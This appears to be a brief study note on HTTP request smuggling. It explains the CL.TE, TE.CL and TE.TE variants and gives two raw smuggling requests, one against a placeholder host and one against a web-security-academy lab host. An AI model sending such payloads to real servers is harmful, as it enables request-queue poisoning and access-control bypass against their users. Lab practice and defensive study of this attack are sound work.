 # HTTP Request smuggling Test

### headers

```
Content-Length
Transfer-Encoding
```

* CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
* TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
* TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

### HTTP request CL.TE
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

```
POST / HTTP/1.1
Host: 0a2300b804b853f580aa493c0046000d.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0


GET /404 HTTP/1.1
X-Ignore: x
```
